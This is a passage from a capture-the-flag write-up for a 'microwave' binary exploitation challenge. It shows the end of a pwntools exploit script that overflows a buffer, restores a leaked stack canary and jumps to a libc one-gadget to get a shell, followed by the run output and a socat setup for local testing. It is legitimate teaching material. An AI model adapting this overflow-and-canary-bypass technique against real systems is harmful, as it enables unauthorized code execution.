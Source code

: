 # construct the exploit
buf = "A"*1032
buf += pack(canary)
buf += "B"*8
buf += pack(libc_base + magic_addr)

# exploit
p.sendline(buf)
p.clean()

# interact with it
p.interactive()</code></pre>
It is then possible to <code>cat</code> the flag.
<pre><code>:::bash
$ ./microwave-pwn.py
[+] Opening connection to 127.0.0.1 on port 1337: Done

 --------------------------------------------------------
 |     Welcome to the next generation of MicroWaves!    |
 |                         ***                          |
 | This stylish Microwave with Grill function, includes |
 |      a function that tweets your favourite food!     |
 |                         ***                          |
 --------------------------------------------------------
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food    |
           |  q. Exit                       |
           ----------------------------------

           [MicroWave]:
['0xa', '0x7f192241b870', '0x7f1922b16740', '0x7f192291aac0', '(nil)', '0x4cacfb0061420700', '0x7f19226ef870', '0x7f19226ef878', '']
canary is 0x4cacfb0061420700
libc base: 0x7f1922330000
magic addr: 0x7f192237652c

           #&gt;
[*] Switching to interactive mode
$ ls
...</code></pre>
To reproduce the execution locally, I used socat with the following tweak:
<pre><code>:::bash
$ cat doit.sh
#!/bin/bash
LD_PRELOAD=./libc.so.6 ./microwave_61f50dba931bb10ab3089215b2e188f4
$ socat tcp-l:1337,reuseaddr,fork exec:./doit.sh</code></pre>
<h3 id="note">Note</h3>
On some systems, using <a href="http://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html">LD_PRELOAD</a> won't work and thus <a href="http://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html">LD_LIBRARY_PATH</a> with the full path to the folder containing the provided libc (<em>libc.so.6</em>) should be provided.
